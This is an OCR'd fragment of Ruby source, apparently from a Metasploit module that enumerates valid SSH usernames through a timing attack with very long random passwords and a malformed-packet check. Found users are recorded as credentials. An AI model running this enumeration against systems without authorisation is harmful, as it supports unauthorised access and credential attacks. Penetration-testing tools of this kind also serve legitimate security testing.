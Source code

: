 ```ruby
      return :connection_error
    rescue Timeout::Error
      return :success if technique == :timing_attack
    rescue Net::SSH::AuthenticationFailed
      return :fail if technique == :malformed_packet
    rescue Net::SSH::Exception => e
      vprint_error("#{e.class}: #{e.message}")
    end

    finish_time = Time.new

    case technique
    when :malformed_packet
      return :success if ssh
    when :timing_attack
      return :success if (finish_time - start_time > threshold)
    end

    :fail
  end

  def rand_pass
    Rex::Text.rand_text_english(64_000..65_000)
  end

  def do_report(ip, user, _port)
    service_data = {
      address: ip,
      port: rport,
      service_name: 'ssh',
      protocol: 'tcp',
      workspace_id: myworkspace_id
    }

    credential_data = {
      origin_type: :service,
      module_fullname: fullname,
      username: user
    }.merge(service_data)

    login_data = {
      core: create_credential(credential_data),
      status: Metasploit::Model::Login::Status::UNTRIED
    }.merge(service_data)

    create_credential_login(login_data)
  end

  # Because this isn't using the AuthBrute mixin, we don't have the
  # usual peer method
  def peer(rhost = nil)
    "#{rhost}:#{rport} - SSH -"
  end

  def user_list
    users = []

    users << datastore['USERNAME'] unless datastore['USERNAME'].blank?

    if datastore['USER_FILE']
      fail_with(Failure::BadConfig, 'The USER_FILE is not readable') unless File.readable?(datastore['USER_FILE'])
      users += File.read(datastore['USER_FILE']).split
```